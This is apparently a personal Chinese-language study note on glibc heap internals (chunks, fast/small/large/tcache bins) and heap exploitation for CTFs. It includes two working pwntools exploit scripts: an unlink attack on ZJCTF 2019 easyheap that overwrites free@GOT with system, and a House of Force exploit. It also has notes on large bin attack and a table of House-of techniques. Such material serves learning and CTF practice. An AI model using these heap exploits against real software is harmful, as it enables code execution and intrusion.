









> 写的不好，有空再改

# 概述

## 分类

```
dlmalloc  – General purpose allocator
ptmalloc2 – glibc
jemalloc  – FreeBSD and Firefox
tcmalloc  – Google
libumem   – Solaris
```

## 分配堆空间

### brk&sbrk

main arena

```c
#include <unistd.h>

int brk(void *addr);//*addr为数据段结束地址

void *sbrk(intptr_t increment);//返回操作前数据段结束地址
```

开启ASLR后，BSS segment和heap间存在Random brk offset；关闭后，堆开始地址和数据段结束地址重合

``` shell
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
cat /proc/86231/maps
```

### mmap

thread arena

```c
#include <sys/mman.h>

void *mmap(void *addr, size_t len, int prot, int flags,
    int fildes, off_t off);

int munmap(void *addr, size_t len);
```

### malloc

```c
#include <stdlib.h>

void *malloc(size_t size);
void free(void *ptr);
void *calloc(size_t nmemb, size_t size);
void *realloc(void *ptr, size_t size);
```

第一次执行malloc

- size>=128kB
  - mmap => sys_mmap
- size<128kB
  - brk => sys_brk

## chunk

最小SIZE_T(ul)*4

chunk header(prev_size+size)+user data

```c
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

allocated chunk/freed chunk:

- prev_size: 物理上连续，前不为空可复用
- size:
  - NON_MAIN_ARENA(**A**)
  - IS_MAPPED(**M**)
  - PREV_INUSE(**P**)
- fd,bk: linked list中，allocated chunk中复用
- fd_nextsize,bk_nextsize: large chunk(不含bin)

top chunk: 

- prev_size
- size: 剩下多少空间











## bin

10 个 fast bins，存储在 fastbinsY 中
1 个 unsorted bin，存储在 bin[1]
62 个 small bins，存储在 bin[2] 至 bin[63]
63 个 large bins，存储在 bin[64] 至 bin[126]

### fast bins

LIFO单链表(不用bk)

chunk 大小（含 chunk 头部）：0x10-0x40（64 位 0x20-0x80）

相邻 bin 存放的大小相差 0x8（0x10）B。

不取消inuse flag，故相邻不会合并

free的时候插到对应bin链表的前面，注意记录的地址为free的地址减0x10

同样的，malloc实际分配的内存大小应加上0x10


当分配一块较小的内存(mem<=64 Bytes)时，会首先检查对应大小的fastbin中是否包含未被使用的chunk，如果存在则直接将其从fastbin中移除并返回；否则通过其他方式（剪切top chunk）得到一块符合大小要求的chunk并返回。

### unsorted bin

FIFO双向循环链表

大于fast bin时，暂存在unsorted bin

### small bins

FIFO双向循环链表

0x10-0x1f8(0x20-0x3f0)

相邻的空闲 chunk 会被合并

相邻 bin 存放的大小相差 0x8（0x10）B

### large bins

大于等于 0x200（0x400）B（实际大小）

双向循环链表，插入和删除可以发生在任意位置，相邻空闲 chunk 也会被合并

fd_nextsize,bk_nextsize

前32: 0x400 + 0x40*i

32~48: 0x1380 + 512*j

...

bin中大小不同，进行sort,大在前

### tcache bins

LIFO,max7,no prev_inuse

0x20-0x410(64in total,16byte)

`tcache_perthread_struct`本身也是一个堆块，大小为`0x250`，位于堆开头的位置，包含数组`counts`存放每个`bin`中的`chunk`当前数量，以及数组`entries`存放`64`个`bin`的首地址（可以通过**劫持此堆块**进行攻击）。

### last remainder chunk

malloc时，较大的chunk会split一部分到last remainder，unsorted bin也会存

下次malloc，够大会直接切出来

## main arena header

存bin,top chunk等

libc bss中

## marge freed chunk

### process

- detect next inuse bit: freed?(to avoid double freed)

- last freed? => unlink => merge => merge into unsorted bin
- next top?
  - next freed?
    - inuse: merge into unsorted bin

# Use After Free

dangling pointer

# Heap Overflow

## Unlink

### modern protection

#### corrupted double link list

when unlink

check if:

- P->bk->fd == P
- P->fd->bk == P

to satisfy:(i386)

- `fakeFD -> bk == P` <=> `*(fakeFD + 12) == P`
- `fakeBK -> fd == P` <=> `*(fakeBK + 8) == P`

then:

- `fakeFD -> bk = fakeBK` <=> `*(fakeFD + 12) = fakeBK`
- `fakeBK -> fd = fakeFD` <=> `*(fakeBK + 8) = fakeFD`



设指向可 UAF chunk 的指针的地址为 ptr

1. 修改 fd 为 ptr - 0x18
2. 修改 bk 为 ptr - 0x10
3. 触发 unlink

需要使fakechunk的指针高于原指针0x10个字节，才能通过检测

ptr->ptr-0x18





### ZJCTF 2019 Easyheap

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = "node4.buuoj.cn"
port = 26809
#p = process("./easyheap")
p = remote(host, port)

def creat(size, content):
	p.sendlineafter(":", "1")
	p.sendlineafter(":", str(size).encode())
	p.sendlineafter(":", content)

def edit(index, size, content):
	p.sendlineafter(":", "2")
	p.sendlineafter(":", str(index).encode())
	p.sendlineafter(":", str(size).encode())
	p.sendafter(":", content)

def delet(index):
	p.sendlineafter(":", "3")
	p.sendlineafter(":", str(index).encode())

creat(0x80, "aaaa")
creat(0x80, "bbbb")
creat(0x20, "/bin/sh")
addr = 0x6020e0
free_got = 0x0000000000602018
sys_plt = 0x000000000400700
payload = flat([0, 0x81, addr-0x18, addr-0x10])
payload = payload.ljust(0x80, "a")
payload += flat([0x80, 0x90])
edit(0, 0x90, payload)
delet(1)
payload = flat([free_got]).rjust(0x20, "\x00")
edit(0, 0x20, payload)
edit(0, 0x8, p64(sys_plt))
#debug()
delet(2)

p.interactive()

#劫持atoi，在menu中输入/bin/sh效果一样
```


#### fake chunk

# Using malloc maleficarum

### The House of Spirit

覆盖不到ret,可以盖到栈上free的指针位置



overflow后rop

### The House of Force

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(pt, cmd)
	pause()

host = ""
port = 0
pt = process("./bamboobox")
#pt = remote(host, port)

pt.sendlineafter(":","2")
pt.sendlineafter(":","32")
pt.sendlineafter(":","aaaa")

pt.sendlineafter(":","3")
pt.sendlineafter(":","0")
pt.sendlineafter(":","80")
pt.sendlineafter(":",b"\x00"*0x28+p64(0xffffffffffffffff))

pt.sendlineafter(":","2")
debug()
pt.sendlineafter(":","-96")
pt.sendlineafter(":","aaaa")

pt.sendlineafter(":","2")
pt.sendlineafter(":","16")
pt.sendlineafter(":",p64(0x0000000000400d49)*2)


pt.interactive()
```

### The House of Orange

size<=128k(mmap)

页对齐4kb(0x1000)


### house of botcake

针对检测key

- tcache填满
- A进入unsorted bin，b随后，大小为tcache,合并
- 释放一个tcache
- free B


### Overwrite Fastbin


| 攻击方法           | 影响范围    | 学习链接                                                     |
| ------------------ | ----------- | ------------------------------------------------------------ |
| house of spirit    | 2.23—— 至今 | 堆利用系列之 house of spirit - 安全客 - 安全资讯平台 (anquanke.com) |
| house of einherjar | 2.23—— 至今 | PWN——House Of Einherjar CTF Wiki 例题详解 - 安全客 - 安全资讯平台 (anquanke.com) |
| house of force     | 2.23——2.29  | Top chunk 劫持：House of force 攻击 - 安全客 - 安全资讯平台 (anquanke.com) |
| house of lore      | 2.23—— 至今 | House of Lore - CTF Wiki (ctf-wiki.org)                      |
| house of orange    | 2.23——2.26  | House of orange - 安全客 - 安全资讯平台 (anquanke.com)       |
| house of rabbit    | 2.23——2.28  | http://p4nda.top/2018/04/18/house-of-rabbit/                 |
| house of roman     | 2.23——2.29  | House of Roman - CTF Wiki (ctf-wiki.org)                     |
| house of storm     | 2.23——2.29  | House of storm 原理及利用 - 安全客 - 安全资讯平台 (anquanke.com) |
| house of corrosion | 2.23—— 至今 | House-of-Corrosion 一种新的堆利用技巧 - 先知社区 (aliyun.com) |
| house of husk      | 2.23—— 至今 | house-of-husk 学习笔记 - 安全客 - 安全资讯平台 (anquanke.com) |
| house of atum      | 2.26——2.30  | https://abf1ag.github.io/2021/06/11/house-of-atum/           |
| house of kauri     | 2.26——2.32  | Overview of GLIBC heap exploitation techniques (0x434b.dev)  |
| house of fun       | 2.23——2.30  | Overview of GLIBC heap exploitation techniques (0x434b.dev)  |
| house of mind      | 2.23—— 至今 | how2heap/house_of_mind_fastbin.c at master · shellphish/how2heap (github.com) |
| house of muney     | 2.23—— 至今 | House of Muney 分析 - 安全客 - 安全资讯平台 (anquanke.com)   |
| house of botcake   | 2.23—— 至今 | 奇安信攻防社区 - 深入理解 House of Botcake 堆利用手法 (butian.net) |
| house of rust      | 2.26—— 至今 | c4ebt/House-of-Rust                                          |
| house of crust     | 2.26——2.37  | c4ebt/House-of-Rust                                          |
| house of io        | 2.26—— 至今 | Overview of GLIBC heap exploitation techniques (0x434b.dev)  |
| house of banana    | 2.23—— 至今 | house of banana - 安全客 - 安全资讯平台 (anquanke.com)       |
| house of kiwi      | 2.23——2.36  | House OF Kiwi - 安全客 - 安全资讯平台 (anquanke.com)         |
| house of emma      | 2.23—— 至今 | house of emma                                                |
| house of pig       | 2.23—— 至今 | house of pig 一个新的堆利用详解 - 安全客 - 安全资讯平台 (anquanke.com) |
| house of obstack   | 2.23—— 至今 | 一条新的 glibc IO_FILE 利用链：_IO_obstack_jumps 利用分析 - 跳跳糖 (tttang.com) |
| house of apple1    | 2.23—— 至今 | House of Apple 一种新的 glibc 中 IO 攻击方法 (1) - roderick - record and learn! (roderickchan.cn) |
| house of apple2    | 2.23—— 至今 | House of Apple 一种新的 glibc 中 IO 攻击方法 (2) - roderick - record and learn! (roderickchan.cn) |
| house of apple3    | 2.23—— 至今 | House of Apple 一种新的 glibc 中 IO 攻击方法 (3) - roderick - record and learn! (roderickchan.cn) |

# unsorted bin attack


# large bin attack

## leak

0x200000

## attack

```c
if ((unsigned long) (size)< (unsigned long) chunksize_nomask (bck->bk))
{
    fwd = bck;
    bck = bck->bk;
    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
}
```

我们修改了`p1`的`bk_nextsize`为`[target-0x20]`,也就导致了`victim->bk_nextsize = (&target)-4)`

然后执行`victim->bk_nextsize->fd_nextsize = victim;`也就是`(&target)-4)->fd_nextsize = victim` ,相当于`*target = victim` 就在`target`处写上了新入`large bin`的`p2`的地址

